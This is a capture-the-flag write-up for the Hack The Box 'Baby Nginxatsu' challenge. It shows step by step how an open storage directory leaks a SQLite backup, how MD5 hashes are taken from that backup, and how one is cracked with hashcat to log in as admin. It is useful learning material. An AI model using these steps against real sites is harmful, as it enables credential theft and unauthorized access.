 # [Baby Nginxatsu](https://app.hackthebox.eu/challenges/180)

__Title__: Baby Nginxatsu write-up  
__Description__: A web site that allow user to create Nginx config   
__summary__: We were able to retrieve the admin password from a SQLite backup left on the server  
__Tags__:  nginx, php, sqlite, hashcat  
__host__: 178.128.175.172:32194  

![homepage image of baby-nginxatsu](https://github.com/clobee/images/blob/main/Screenshot_2021-01-10%20nginxatsu.png)

---  

## Enumeration

### Initial

The first thing we did was to use the application (just like any user)

- Created an account
- Created few config files

### Platform information

```bash
$ whatweb 178.128.175.172:32194

http://178.128.175.172:32194 [302 Found] Cookies[XSRF-TOKEN,laravel_session], Country[GREECE][GR], HTML5, HTTPServer[nginx], HttpOnly[laravel_session], IP[178.128.175.172], Laravel, Meta-Refresh-Redirect[http://178.128.175.172:32194/auth/login], PHP[7.4.12], RedirectLocation[http://178.128.175.172:32194/auth/login], Title[Redirecting to http://178.128.175.172:32194/auth/login], X-Powered-By[PHP/7.4.12], nginx

http://178.128.175.172:32194/auth/login [200 OK] Cookies[XSRF-TOKEN,laravel_session], Country[GREECE][GR], HTTPServer[nginx], HttpOnly[laravel_session], IP[178.128.175.172], Laravel, Meta-Author[makelarisjr, makelaris], PHP[7.4.12], PasswordField[password], Title[nginxatsu], X-Powered-By[PHP/7.4.12], nginx
```
Running `whatweb` against the application we managed to get some information about the platform: Laravel (PHP 7.4.12)

### Nginx Config generator

The application generates Nginx configs that can be viewed using the id of the config E.g: http://178.128.175.172:32194/config/51

#### Configs storage

One interesting thing is that we can see the raw config E.g http://178.128.175.172:32194/storage/nginx_5ffb34aac767f.conf

visiting the folder http://178.128.175.172:32194/storage/ we can see that the server list all the available configs.

We can also see an interesting file: `v1_db_backup_1604123342.tar.gz`

```bash
$ wget http://178.128.175.172:32194/storage/v1_db_backup_1604123342.tar.gz

--2021-01-10 17:31:20--  http://178.128.175.172:32194/storage/v1_db_backup_1604123342.tar.gz
Connecting to 178.128.175.172:32194... connected.
HTTP request sent, awaiting response... 200 OK
Length: 42496 (42K) [text/plain]
Saving to: ‘v1_db_backup_1604123342.tar.gz’

v1_db_backup_1604123342.t 100%[===================================>]  41.50K  --.-KB/s    in 0.06s   

2021-01-10 17:31:20 (691 KB/s) - ‘v1_db_backup_1604123342.tar.gz’ saved [42496/42496]
```

We are dealing with a tar file

```bash
$ file v1_db_backup_1604123342.tar.gz 
v1_db_backup_1604123342.tar.gz: POSIX tar archive (GNU)
```

Let's extract everything

```bash
$ tar -tvf v1_db_backup_1604123342.tar.gz
-rw-r--r-- www/www       40960 2021-01-10 16:50 database/database.sqlite
```

```bash
$ tar -xvf v1_db_backup_1604123342.tar.gz
database/database.sqlite
```

Let's load the file in `DB Browser for SQLite`

![DB Browser SQLite](https://github.com/clobee/images/blob/main/Screenshot_2021-01-10_17-47-13.png)

We have been able to retrieve few users (and their passwords hashes) from the DB.

![DB Browser SQLite](https://github.com/clobee/images/blob/main/Screenshot_2021-01-10_17-49-25.png)

### Password cracking

The password hashes are in MD5 

```bash
$ hash-identifier e7816e9a10590b1e33b87ec2fa65e6cd
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
````
Let's store the passwords hashes in a file 

```bash
$ cat users 

e7816e9a10590b1e33b87ec2fa65e6cd
96daf5684cfda2dd61750c3719f5fb19
ecbbcb87173b6501ef44184c58d380a7
```

Using Hashcat we have retrieved a password

```bash
$ hashcat -m 0 passwords /usr/share/wordlists/rockyou.txt       
hashcat (v6.1.1) starting...

...
```

```bash
$ hashcat -m 0 passwords /usr/share/wordlists/rockyou.txt --show
e7816e9a10590b1e33b87ec2fa65e6cd:XXXXXXXX
```

At this point we have `jr` password `XXXXXXX`

Using those information we manage to logged in to `jr` account and because he was the admin, we got the flag.
